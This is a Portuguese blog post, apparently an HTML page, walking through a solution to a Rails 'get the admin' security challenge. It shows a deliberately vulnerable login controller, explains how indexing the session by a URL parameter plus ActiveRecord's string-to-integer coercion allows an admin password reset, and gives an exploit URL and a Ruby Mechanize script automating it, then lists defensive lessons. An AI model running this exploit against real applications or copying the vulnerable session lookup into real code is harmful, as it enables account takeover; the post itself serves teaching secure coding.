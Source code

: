 ```yaml
---
title: "[Small Bite] Session Injection Challenge"
date: "2014-08-28T15:00:00.000Z"
tags: ["security"]
years: "2014"
---
```


<p></p>
<p>Eu expliquei rapidamente sobre Metasploit no <a href="http://www.akitaonrails.com/2014/08/27/small-bite-brincando-com-metasploit">artigo anterior</a>, e sobre o desafio do <a href="https://gist.github.com/joernchen">@joernchen</a>. Se você ainda não resolveu o desafio, talvez queira deixar pra ler este artigo depois!</p>
<p><strong>SPOILER ALERT</strong></p>
<p>Mas se abriu até aqui no artigo é porque quer saber o que é o problema. O @joernchen <a href="https://gist.github.com/joernchen/9dfa57017b4732c04bcc">publicou exatamente o seguinte código</a>:</p>
<p></p>
<p>
</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
<a href="#n8" name="n8">8</a>
<a href="#n9" name="n9">9</a>
<strong><a href="#n10" name="n10">10</a></strong>
<a href="#n11" name="n11">11</a>
<a href="#n12" name="n12">12</a>
<a href="#n13" name="n13">13</a>
<a href="#n14" name="n14">14</a>
<a href="#n15" name="n15">15</a>
<a href="#n16" name="n16">16</a>
<a href="#n17" name="n17">17</a>
<a href="#n18" name="n18">18</a>
<a href="#n19" name="n19">19</a>
<strong><a href="#n20" name="n20">20</a></strong>
<a href="#n21" name="n21">21</a>
<a href="#n22" name="n22">22</a>
<a href="#n23" name="n23">23</a>
<a href="#n24" name="n24">24</a>
<a href="#n25" name="n25">25</a>
<a href="#n26" name="n26">26</a>
<a href="#n27" name="n27">27</a>
<a href="#n28" name="n28">28</a>
<a href="#n29" name="n29">29</a>
<strong><a href="#n30" name="n30">30</a></strong>
<a href="#n31" name="n31">31</a>
<a href="#n32" name="n32">32</a>
<a href="#n33" name="n33">33</a>
<a href="#n34" name="n34">34</a>
<a href="#n35" name="n35">35</a>
<a href="#n36" name="n36">36</a>
<a href="#n37" name="n37">37</a>
<a href="#n38" name="n38">38</a>
<a href="#n39" name="n39">39</a>
<strong><a href="#n40" name="n40">40</a></strong>
<a href="#n41" name="n41">41</a>
<a href="#n42" name="n42">42</a>
<a href="#n43" name="n43">43</a>
<a href="#n44" name="n44">44</a>
<a href="#n45" name="n45">45</a>
<a href="#n46" name="n46">46</a>
<a href="#n47" name="n47">47</a>
<a href="#n48" name="n48">48</a>
<a href="#n49" name="n49">49</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#777"># Try to become "admin" on https://gettheadmin.herokuapp.com/ </span>
<span style="color:#777"># Vector borrowed from real-world code ;)</span>
<span style="color:#777"># config/routes.rb:</span>
  root <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">login#login</span><span style="color:#710">'</span></span>
  post <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">login</span><span style="color:#710">'</span></span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">login#login</span><span style="color:#710">'</span></span>
  get <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">reset/:token</span><span style="color:#710">'</span></span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">login#password_reset</span><span style="color:#710">'</span></span>
<span style="color:#777"># app/controllers/login_controller.rb</span>
<span style="color:#080;font-weight:bold">class</span> <span style="color:#B06;font-weight:bold">LoginController</span> &lt; <span style="color:#036;font-weight:bold">ApplicationController</span>
  <span style="color:#080;font-weight:bold">def</span> <span style="color:#06B;font-weight:bold">login</span>
    <span style="color:#080;font-weight:bold">if</span> request.post?
      user = <span style="color:#036;font-weight:bold">User</span>.where(login: params[<span style="color:#A60">:login</span>]).first
      <span style="color:#080;font-weight:bold">if</span> !user.nil?
        <span style="color:#080;font-weight:bold">if</span> params[<span style="color:#A60">:password</span>] == user.password
           render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">censored</span><span style="color:#710">"</span></span>
        <span style="color:#080;font-weight:bold">end</span>
        render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">Wrong Password</span><span style="color:#710">"</span></span>
        <span style="color:#080;font-weight:bold">return</span>
      <span style="color:#080;font-weight:bold">end</span>
    <span style="color:#080;font-weight:bold">else</span>
      render <span style="color:#A60">:template</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">login/form</span><span style="color:#710">"</span></span>
    <span style="color:#080;font-weight:bold">end</span>
  <span style="color:#080;font-weight:bold">end</span>
  <span style="color:#080;font-weight:bold">def</span> <span style="color:#06B;font-weight:bold">password_reset</span>
    <span style="color:#33B">@user</span> = <span style="color:#036;font-weight:bold">User</span>.where(token: params[<span style="color:#A60">:token</span>]).first
    <span style="color:#080;font-weight:bold">if</span> <span style="color:#33B">@user</span>
      session[params[<span style="color:#A60">:token</span>]] = <span style="color:#33B">@user</span>.id
    <span style="color:#080;font-weight:bold">else</span>
      user_id = session[params[<span style="color:#A60">:token</span>]]
      <span style="color:#33B">@user</span> = <span style="color:#036;font-weight:bold">User</span>.find(user_id) <span style="color:#080;font-weight:bold">if</span> user_id
    <span style="color:#080;font-weight:bold">end</span>
    <span style="color:#080;font-weight:bold">if</span> !<span style="color:#33B">@user</span>
      render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">no way!</span><span style="color:#710">"</span></span>
      <span style="color:#080;font-weight:bold">return</span>
    <span style="color:#080;font-weight:bold">elsif</span> params[<span style="color:#A60">:password</span>] &amp;&amp; <span style="color:#33B">@user</span> &amp;&amp; params[<span style="color:#A60">:password</span>].length &gt; <span style="color:#00D">6</span>
      <span style="color:#33B">@user</span>.password = params[<span style="color:#A60">:password</span>]
        <span style="color:#080;font-weight:bold">if</span> <span style="color:#33B">@user</span>.save
          render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">password changed ;)</span><span style="color:#710">"</span></span>
          <span style="color:#080;font-weight:bold">return</span>
        <span style="color:#080;font-weight:bold">end</span>
    <span style="color:#080;font-weight:bold">end</span>
    render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">error saving password!</span><span style="color:#710">"</span></span>
  <span style="color:#080;font-weight:bold">end</span>
<span style="color:#080;font-weight:bold">end</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Basicamente um trecho do arquivo de <tt>routes.rb</tt> e o <tt>login_controller.rb</tt>. Assuma que também tem um form que poderia ser algo assim:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#F00;background-color:#FAA">&lt;</span>%= form_tag '/login', method: :post do %<span style="color:#F00;background-color:#FAA">&gt;</span>
  <span style="color:#F00;background-color:#FAA">&lt;</span>%= text_field_tag 'login' %<span style="color:#F00;background-color:#FAA">&gt;</span>
  <span style="color:#F00;background-color:#FAA">&lt;</span>%= password_field_tag 'password' %<span style="color:#F00;background-color:#FAA">&gt;</span>
  <span style="color:#F00;background-color:#FAA">&lt;</span>%= submit_tag 'login' %<span style="color:#F00;background-color:#FAA">&gt;</span>
<span style="color:#F00;background-color:#FAA">&lt;</span>% end %<span style="color:#F00;background-color:#FAA">&gt;</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>E um model chamado <tt>User</tt> que poderia ter a seguinte migration:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
<a href="#n8" name="n8">8</a>
<a href="#n9" name="n9">9</a>
<strong><a href="#n10" name="n10">10</a></strong>
<a href="#n11" name="n11">11</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#080;font-weight:bold">class</span> <span style="color:#B06;font-weight:bold">CreateUsers</span> &lt; <span style="color:#036;font-weight:bold">ActiveRecord</span>::<span style="color:#036;font-weight:bold">Migration</span>
  <span style="color:#080;font-weight:bold">def</span> <span style="color:#06B;font-weight:bold">change</span>
    create_table <span style="color:#A60">:users</span> <span style="color:#080;font-weight:bold">do</span> |t|
      t.string <span style="color:#A60">:token</span>
      t.string <span style="color:#A60">:login</span>
      t.string <span style="color:#A60">:password</span>
      t.timestamps
    <span style="color:#080;font-weight:bold">end</span>
  <span style="color:#080;font-weight:bold">end</span>
<span style="color:#080;font-weight:bold">end</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>E, finalmente, um seed que poderia ter o seguinte:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
</pre>
      </td>
      <td class="code"><pre>User.create token: 'qualquercoisa', login: 'admin', password: 'qualquercoisa'
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Primeiro entenda o que o controller faz:</p>
<ul>
  <li>tem uma action simples de <tt>login</tt> que valida o POST de usuário e senha e renderiza o form de login.</li>
  <li>tem uma action de <tt>reset_password</tt> que atende a rota <tt>reset/:token</tt>.</li>
</ul>
<p>Quando o form é renderizado, ele gera um HTML assim:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
<a href="#n8" name="n8">8</a>
<a href="#n9" name="n9">9</a>
<strong><a href="#n10" name="n10">10</a></strong>
<a href="#n11" name="n11">11</a>
<a href="#n12" name="n12">12</a>
<a href="#n13" name="n13">13</a>
<a href="#n14" name="n14">14</a>
<a href="#n15" name="n15">15</a>
<a href="#n16" name="n16">16</a>
<a href="#n17" name="n17">17</a>
<a href="#n18" name="n18">18</a>
<a href="#n19" name="n19">19</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#34b">&lt;!DOCTYPE html&gt;</span>
<span style="color:#070">&lt;html&gt;</span>
<span style="color:#070">&lt;head&gt;</span>
  <span style="color:#070">&lt;title&gt;</span>Gettheadmin<span style="color:#070">&lt;/title&gt;</span>
  <span style="color:#070">&lt;link</span> <span style="color:#b48">data-turbolinks-track</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">true</span><span style="color:#710">"</span></span> <span style="color:#b48">href</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">/assets/application-9cc0575249625b8d8648563841072913.css</span><span style="color:#710">"</span></span> <span style="color:#b48">media</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">all</span><span style="color:#710">"</span></span> <span style="color:#b48">rel</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">stylesheet</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
  <span style="color:#070">&lt;script</span> <span style="color:#b48">data-turbolinks-track</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">true</span><span style="color:#710">"</span></span> <span style="color:#b48">src</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">/assets/application-baf6c4c3436bbd5accc1b87ff9b9eabe.js</span><span style="color:#710">"</span></span><span style="color:#070">&gt;</span><span style="color:#070">&lt;/script&gt;</span>
  <span style="color:#070">&lt;meta</span> <span style="color:#b48">content</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">authenticity_token</span><span style="color:#710">"</span></span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">csrf-param</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
<span style="color:#070">&lt;meta</span> <span style="color:#b48">content</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=</span><span style="color:#710">"</span></span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">csrf-token</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
<span style="color:#070">&lt;/head&gt;</span>
<span style="color:#070">&lt;body&gt;</span>
<span style="color:#070">&lt;form</span> <span style="color:#b48">accept-charset</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">UTF-8</span><span style="color:#710">"</span></span> <span style="color:#b48">action</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">/login</span><span style="color:#710">"</span></span> <span style="color:#b48">method</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">post</span><span style="color:#710">"</span></span><span style="color:#070">&gt;</span><span style="color:#070">&lt;div</span> <span style="color:#b48">style</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">display:none</span><span style="color:#710">"</span></span><span style="color:#070">&gt;</span><span style="color:#070">&lt;input</span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">utf8</span><span style="color:#710">"</span></span> <span style="color:#b48">type</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">hidden</span><span style="color:#710">"</span></span> <span style="color:#b48">value</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#800;font-weight:bold">&amp;#x2713;</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span><span style="color:#070">&lt;input</span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">authenticity_token</span><span style="color:#710">"</span></span> <span style="color:#b48">type</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">hidden</span><span style="color:#710">"</span></span> <span style="color:#b48">value</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span><span style="color:#070">&lt;/div&gt;</span>
  <span style="color:#070">&lt;input</span> <span style="color:#b48">id</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">login</span><span style="color:#710">"</span></span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">login</span><span style="color:#710">"</span></span> <span style="color:#b48">type</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">text</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
  <span style="color:#070">&lt;input</span> <span style="color:#b48">id</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">password</span><span style="color:#710">"</span></span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">password</span><span style="color:#710">"</span></span> <span style="color:#b48">type</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">password</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
  <span style="color:#070">&lt;input</span> <span style="color:#b48">name</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">commit</span><span style="color:#710">"</span></span> <span style="color:#b48">type</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">submit</span><span style="color:#710">"</span></span> <span style="color:#b48">value</span>=<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">login</span><span style="color:#710">"</span></span> <span style="color:#070">/&gt;</span>
<span style="color:#070">&lt;/form&gt;</span>
<span style="color:#070">&lt;/body&gt;</span>
<span style="color:#070">&lt;/html&gt;</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>O importante: o token CSRF na tag de meta. Ele é diferente toda vez que você puxa o formulário e serve para evitar <a href="https://guides.rubyonrails.org/security.html#cross-site-request-forgery-csrf">Cross Site Request Forgery</a>. Mas tem um detalhe importante: quando a session é inicializada ele sempre vai ter pelo menos duas chave-valor: uma que é a "session_id" e outra com a chave "_csrf_token" com o valor que aparece no HTML justamente para fazer a checagem.</p>
<p>E a parte que é o buraco no controller é este:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
</pre>
      </td>
      <td class="code"><pre>user_id = session[params[<span style="color:#A60">:token</span>]]
<span style="color:#33B">@user</span> = <span style="color:#036;font-weight:bold">User</span>.find(user_id) <span style="color:#080;font-weight:bold">if</span> user_id
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Se o <tt>params[:token]</tt> for "_csrf_token", o equivalente ficaria assim:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#33B">@user</span> = <span style="color:#036;font-weight:bold">User</span>.find(session[<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">_csrf_token</span><span style="color:#710">'</span></span>])
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Agora, sabemos que o <tt>User.create</tt> inicial vai criar um admin com o ID que será o inteiro "1". O método <tt>#find</tt> aceita não só números como strings (para o caso, por exemplo, onde você cria uma renderização alternativa de ID para fazer URLs bonitas como no Wordpress onde ficaria "/1-admin" em vez de "/1").</p>
<p>Quando você faz:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
</pre>
      </td>
      <td class="code"><pre><span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">1abcd</span><span style="color:#710">"</span></span>.to_i <span style="color:#777"># =&gt; 1</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Note que ele ignora o que não é string e devolve o inteiro 1.</p>
<p>Portanto, basta dar reload no site até o "_csrf_token" começar com "1" seguindo de letras. Aí ele vai fazer <tt>User.find("1abcd")</tt> que é o mesmo que <tt>User.find(1)</tt> e pronto! Conseguimos o usuário. E para piorar, o código do controller ainda faz isso em seguinte:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
</pre>
      </td>
      <td class="code"><pre><span style="color:#080;font-weight:bold">if</span> params[<span style="color:#A60">:password</span>] &amp;&amp; <span style="color:#33B">@user</span> &amp;&amp; params[<span style="color:#A60">:password</span>].length &gt; <span style="color:#00D">6</span>
  <span style="color:#33B">@user</span>.password = params[<span style="color:#A60">:password</span>]
    <span style="color:#080;font-weight:bold">if</span> <span style="color:#33B">@user</span>.save
      render <span style="color:#A60">:text</span> =&gt; <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">password changed ;)</span><span style="color:#710">"</span></span>
      <span style="color:#080;font-weight:bold">return</span>
    <span style="color:#080;font-weight:bold">end</span>
<span style="color:#080;font-weight:bold">end</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Ou seja, ele grava a nova senha que você passar como parâmetro. Portanto a URL para exploit é:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
</pre>
      </td>
      <td class="code"><pre>https://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>E para automatizar o exploit, fiz este pequeno script:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
<a href="#n8" name="n8">8</a>
<a href="#n9" name="n9">9</a>
<strong><a href="#n10" name="n10">10</a></strong>
<a href="#n11" name="n11">11</a>
<a href="#n12" name="n12">12</a>
<a href="#n13" name="n13">13</a>
<a href="#n14" name="n14">14</a>
<a href="#n15" name="n15">15</a>
<a href="#n16" name="n16">16</a>
</pre>
      </td>
      <td class="code"><pre>require <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">rubygems</span><span style="color:#710">'</span></span>
require <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">mechanize</span><span style="color:#710">'</span></span>
<span style="color:#00D">100</span>.times <span style="color:#080;font-weight:bold">do</span>
  agent = <span style="color:#036;font-weight:bold">Mechanize</span>.new { |agent|
    agent.user_agent_alias = <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">Mac Safari</span><span style="color:#710">'</span></span>
  }
  page = agent.get(<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">https://gettheadmin.herokuapp.com/</span><span style="color:#710">"</span></span>)
  token = page.at(<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">meta[@name="csrf-token"]</span><span style="color:#710">'</span></span>)[<span style="color:#A60">:content</span>]
  puts token
  <span style="color:#080;font-weight:bold">if</span> token =~ <span style="background-color:hsla(300,100%,50%,0.06)"><span style="color:#404">/</span><span style="color:#808">^1</span><span style="color:#D20">\w</span><span style="color:#808">+</span><span style="color:#404">/</span></span>
    puts <span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">"</span><span style="color:#D20">TRYING EXPLOIT!!</span><span style="color:#710">"</span></span>
    doc = agent.get(<span style="background-color:hsla(0,100%,50%,0.05)"><span style="color:#710">'</span><span style="color:#D20">https://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567</span><span style="color:#710">'</span></span>)
    <span style="color:#080;font-weight:bold">break</span> <span style="color:#080;font-weight:bold">if</span> doc.content =~ <span style="background-color:hsla(300,100%,50%,0.06)"><span style="color:#404">/</span><span style="color:#808">password changed</span><span style="color:#404">/</span></span>
  <span style="color:#080;font-weight:bold">end</span>
<span style="color:#080;font-weight:bold">end</span>
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>Quando o script parar, a senha mudou pra "1234567", agora basta fazer login com o usuário "admin" e senha "1234567" e pronto, você está dentro!</p>
<p>E eu coloquei 100 vezes, mas muito antes disso já vai parar porque não demora muito pra um "_csrf_token" que começa com "1".</p>
<p><img src="https://d7v6meks67904.cloudfront.net/assets/image_asset/image/469/pasted_image_at_2014_08_27_11_38_am.png" srcset="https://d7v6meks67904.cloudfront.net/assets/image_asset/image/469/pasted_image_at_2014_08_27_11_38_am.png 2x" alt="Exploit funciona"></p>
<p>Lições aprendidas:</p>
<ul>
  <li>
    <p>A session tem valores por padrão! Nunca busque chaves na session baseado diretamente num parâmetro de URL. Aliás, <strong>nunca</strong> confie em parâmetros de URL</p>
  </li>
  <li>
    <p>Cuidado com o método <tt>#find</tt> do ActiveRecord por causa da conversão implícita de string para integer.</p>
  </li>
  <li>
    <p>Use uma biblioteca que já cuida desses detalhes como o <a href="https://github.com/plataformatec/devise">Devise</a></p>
  </li>
</ul>
<p>Assista aos screencasts do RubyTapas que falam justamente sobre conversões de strings:</p>
<ul>
  <li><a href="https://www.rubytapas.com/episodes/206-Coercion">206. Coersion</a></li>
  <li><a href="https://www.rubytapas.com/episodes/207-Conversion-Function">207. Conversion Function</a></li>
  <li><a href="https://www.rubytapas.com/episodes/208-Lenient-Conversions">208. Lenient Conversions</a></li>
  <li><a href="https://www.rubytapas.com/episodes/209-Explicit-Conversion">209. Explicit Conversion</a></li>
  <li><a href="https://www.rubytapas.com/episodes/210-Implicit-Conversion">210. Implicit Conversion</a></li>
</ul>
<p>Alguém conseguiu explorar e mudar a senha de admin de outra forma diferente desta? Não deixe de comentar abaixo.</p>
<p></p>